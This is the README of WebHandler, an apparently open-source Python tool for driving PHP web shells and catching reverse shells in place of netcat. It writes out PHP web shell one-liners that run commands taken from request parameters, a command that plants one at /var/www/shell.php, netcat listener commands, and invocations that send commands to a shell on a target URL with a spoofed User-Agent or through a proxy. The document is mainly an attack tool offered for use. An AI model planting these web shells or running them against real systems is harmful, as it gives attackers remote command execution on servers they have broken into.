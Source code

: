 WebHandler - A hanlder for PHP system functions & alternative 'netcat listener'
---
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info ###
---
WebHandler tries to simulate a 'Linux bash prompt' to handle and  process:
    - PHP _program execution functions_ (e.g. `system`, `passthru`, `exec`, etc)
    - Reserve shell connections (e.g. `nc -lvvp 1234`)

Another feature is to spoof "User-Agent" in the HTTP header. (--random-angent)
It also supports HTTP proxies (proxy http://<ip>:<port>

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php exec($_POST['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`

* WebHandler is a replacement for netcat with a reverse connection:
    - `netcat -l -p 1234`
    - `nc -lvvp 4321`

### Usage ###
---
* --Example file
    - `echo '<?php system($_GET['cmd']); ?>' > /var/www/shell.php`

* --url is a required argument when sending either GET or POST requests (e.g. a bind 'web based PHP' connection):
    - `python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=`
    - `python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080`

* --listen is a required argument when working waiting connection (e.g. a reverse 'raw' connection):
    - `python webhandler.py --listen 1234`

### Dependencies
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**.
To install it run: `sudo (apt-get|yum) install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

### Links
---
[Wiki][]

[Known Bugs][]

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
[Wiki]: https://github.com/lnxg33k/webhandler/wiki
[Known Bugs]: https://github.com/lnxg33k/webhandler/issues
